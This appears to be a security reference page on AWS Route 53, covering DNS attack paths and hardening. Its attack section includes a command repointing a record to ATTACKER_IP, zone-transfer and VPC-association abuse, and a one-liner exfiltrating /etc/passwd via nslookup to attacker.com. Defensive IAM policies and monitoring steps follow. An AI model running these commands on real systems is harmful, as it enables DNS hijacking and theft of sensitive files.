

AWS Route 53 Security
DNS
Route 53 is AWS's DNS service handling domain registration, DNS routing, and health checks. Attackers exploit DNS misconfigurations for subdomain takeover, traffic hijacking, and reconnaissance.

Route 53 is AWS's DNS service handling domain registration, DNS routing, and health checks. Attackers exploit DNS misconfigurations for subdomain takeover, traffic hijacking, and reconnaissance.
Route 53 manages public and private hosted zones, domain registration, and DNS health checks. Public zones resolve globally while private zones serve VPC-internal resolution. Alias records provide AWS-native mapping to CloudFront, ELB, S3, and other services.
DNS queries bypass most firewalls and security controls. Attackers use DNS TXT queries for data exfiltration, encode stolen data in subdomain labels, and tunnel C2 traffic through DNS resolution. Route 53 Resolver logs can detect this but are rarely enabled.
DNS control enables complete traffic interception. Subdomain takeover exposes organizations to phishing and credential theft. DNS enumeration reveals infrastructure and attack surface.
aws route53 list-hosted-zonesaws route53 list-resource-record-sets \\
--hosted-zone-id Z1234567890ABCaws route53 list-health-checksaws route53domains list-domainsdig ANY example.com @8.8.8.8aws route53 change-resource-record-sets \\
--hosted-zone-id Z1234567890ABC \\
--change-batch '{"Changes":[{"Action":"UPSERT",
"ResourceRecordSet":{"Name":"app.example.com",
"Type":"A","TTL":60,
"ResourceRecords":[{"Value":"ATTACKER_IP"}]}}]}'dig axfr example.com @ns1.example.comsubfinder -d example.com -silent | dnsx -silentaws route53 list-resource-record-sets \\
--hosted-zone-id Z123 \\
--query "ResourceRecordSets[?Type=='CNAME']"aws route53 associate-vpc-with-hosted-zone \\
--hosted-zone-id Z123 \\
--vpc VPCRegion=us-east-1,VPCId=vpc-attacker# Encode data in subdomain labels
nslookup $(cat /etc/passwd | base64 | tr -d '\
' | \\
fold -w 60 | head -1).attacker.com{
"Version": "2012-10-17",
"Statement": [{
"Effect": "Allow",
"Action": "route53:*",
"Resource": "*"
}]
}Full Route 53 access enables DNS hijacking across all zones
{
"Version": "2012-10-17",
"Statement": [{
"Effect": "Allow",
"Action": [
"route53:GetHostedZone",
"route53:ListResourceRecordSets"
],
"Resource": "arn:aws:route53:::hostedzone/Z123456"
}]
}Limited to specific hosted zone with read-only access
{
"Version": "2012-10-17",
"Statement": [{
"Effect": "Allow",
"Action": "route53:AssociateVPCWithHostedZone",
"Resource": "*"
}]
}Allows associating any VPC with any private hosted zone
{
"Version": "2012-10-17",
"Statement": [{
"Effect": "Deny",
"Action": "route53:ChangeResourceRecordSets",
"Resource": "arn:aws:route53:::hostedzone/Z123456",
"Condition": {
"StringNotEquals": {
"aws:PrincipalTag/team": "dns-admins"
}
}
}]
}Only DNS admin team can modify records in production zone
Sign zones with DNSSEC to prevent DNS spoofing and cache poisoning attacks.
aws route53 enable-hosted-zone-dnssec \\
--hosted-zone-id Z123456Regularly scan for CNAME records pointing to deleted resources to prevent subdomain takeover.
subjack -w subdomains.txt -t 100 -timeout 30 -aEnable DNS query logging to CloudWatch for security monitoring and anomaly detection.
aws route53resolver create-resolver-query-log-config \\
--name security-dns-log \\
--destination-arn <cw-log-group-arn>Use IAM conditions to limit DNS record modifications to authorized teams only.
"Condition": {"StringEquals": {
"aws:PrincipalTag/team": "dns-admins"
}}Use private hosted zones for internal services instead of exposing them in public DNS.
aws route53 create-hosted-zone \\
--name internal.corp.com \\
--vpc VPCRegion=us-east-1,VPCId=vpc-xxx \\
--caller-reference $(date +%s)Alert on health check changes that could indicate traffic redirection attacks.
aws cloudwatch put-metric-alarm \\
--alarm-name route53-health-change \\
--metric-name HealthCheckStatus \\
--namespace AWS/Route53 \\
--dimensions Name=HealthCheckId,Value=HC_ID